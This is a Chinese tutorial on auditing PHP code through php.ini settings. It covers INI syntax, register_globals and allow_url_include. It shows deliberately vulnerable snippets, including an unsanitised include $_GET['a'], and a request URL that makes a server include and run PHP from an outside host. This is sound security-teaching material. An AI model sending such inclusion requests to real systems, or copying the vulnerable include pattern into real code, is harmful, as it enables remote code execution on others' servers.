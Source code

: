 # php代码审计之配置文件

配置文件（php.ini）在 PHP 启动时被读取。对于服务器模块版本的 PHP，仅在 web 服务器启动时读取一次。

代码在不同环境下执行的结果也会大有不同，可能就因为一个配置问题，导致一个非常高危的漏洞能够利用;也可能你已经找到的一个漏洞就因为你的配置问题，导致你鼓捣很久都无法构造成功的漏洞利用代码。然而，在不同的PHP版本中配置指令也有不一样的地方，新的版本可能会增加或者删除部分指令，改变指令默认设置或者固定设置指令，因此我们在代码审计之前必须要非常熟悉PHP各个版本中配置文件的核心指令，才能更高效地挖掘到高质量的漏洞。

## php配置的语法

指令是使用以下语法指定的:指令名是*区分大小写的*
directive(指令) = value(值)
foo=bar 不等于 FOO=bar

INI 文件的表达式被限制于位运算符和括号。
|、&、~、!

空字符串可以简单地通过在等号后面不写任何东西来表示或使用None关键字:
foo =         ; 将foo设置为空字符串
foo = none    ; 将foo设置为空字符串
foo = "none"  ; 将foo设置为字符串" none "

可以使用值1、on、True或Yes来打开它们。
可以使用值0、off、False或No来关闭它们。

## php的配置参数

- register_globals(全局变量注册开关)

该选项在设置为on的情况下，会直接把用户GET、POST等方式提交上来的参数注册成全局变量并初始化值为参数对应的值，使得提交参数可以直接在脚本中使用。register_globals 在PHP版本小于等于4.2.3时设置为PHP_INI_ALL,从PHP 5.3.0起被废弃，不推荐使用，在PHP 5.4.0中移除了该选项。

当register_globals设置为on且PHP版本低于5.4.0时，如下代码输出结果为true。

```php
<?php
if($user == 'admin'){
    echo 'true';
}
?>
访问：
http://localhost/index.php?user=admin
```

- allow_url_include(是否允许包含远程文件)
- allow_url_fopen(是否允许打开远程文件)

在该配置为on的情况下，它可以直接包含远程文件，当存在include($var)且$var可控的情况下，可以直接控制$var变量来执行PHP代码。allow_url_include在PHP 5.2.0后默认设置为off,配置范围是PHP_INI_ALL。与之类似的配置有allow_url_fopen， 配置是否允许打开远程文件。

配置allow_url_include为on，可以直接包含远程文件。

```php
<?php
include $_GET['a'];
?>
访问：
http://localhost/index.php?a=http://fake-blog.com/index.php
```
